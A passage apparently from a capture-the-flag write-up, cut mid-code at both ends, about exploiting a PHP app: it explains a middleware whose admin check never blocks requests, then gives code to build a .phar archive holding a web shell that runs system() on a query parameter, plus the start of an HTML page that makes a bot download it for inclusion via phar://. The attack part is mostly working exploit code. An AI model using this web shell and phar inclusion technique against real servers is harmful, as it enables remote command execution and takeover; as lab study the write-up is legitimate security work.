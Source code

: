 ```php
					'level'           => 1,
					'rank'            => 'NOVICE',
					'magicPower'      => 50,
					'questsCompleted' => 0,
					'artifacts'       => ["Ancient Scroll of Wisdom", "Dragon's Heart Shard"]
				];
			}
		}
	}
	return $handler->handle($request);
};
```

This middleware doesn't actually restrict anything. It always returns `handle($request)`, even if you're not an admin. So the check is meaningless, you can hit the admin-only endpoints just by skipping the session and sending an empty header.


Let's start by generating the `.phar` file:
```php
<?php
$pharFile = 'poc.phar';
@unlink($pharFile);
$p = new Phar($pharFile);
$p->startBuffering();
$p->addFromString('login.php', '<?php echo "Exploit running <br />"; system($_GET["c"]); ?>');
$p->setStub('<?php __HALT_COMPILER(); ?>');
$p->stopBuffering();
```

The reason for injecting `login.php` is that the `render()` function will call the path using `phar://.../login.php`, which returns the `<?php ... ?>` contents. 
Think of the `.phar` file like a `zip archive`. we're basically telling to the`file_exists` and `file_get_contents` that inside this compressed file, there's a `login.php` containing our malicious `<?php..?>` code.

Next, host an `index.html` that forces the bot to download our `.phar` file:
```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <title>FileSaver Async Script Demo</title>
</head>
<body>
  <h1>FileSaver Async Script Demo</h1>

  <script>
    window.addEventListener("load", function() {
      var url = '/phar';
      var callback = function(byteArray) {
        console.log('Callback called; byteArray length is:', byteArray.length);
      };

      var script = document.createElement('script');
      script.type = 'text/javascript';
      
      script.src = '//cdn.jsdelivr.net/g/filesaver.js';
      script.onload = function() {
        console.log((new Date().toString()) + ' : FileSaver Script is ready!');

        var fileNameOfFileSaver = '__PHAR_NAME__';
        var xhr = new XMLHttpRequest();
        xhr.open('GET', url, true);
        xhr.responseType = 'arraybuffer';

```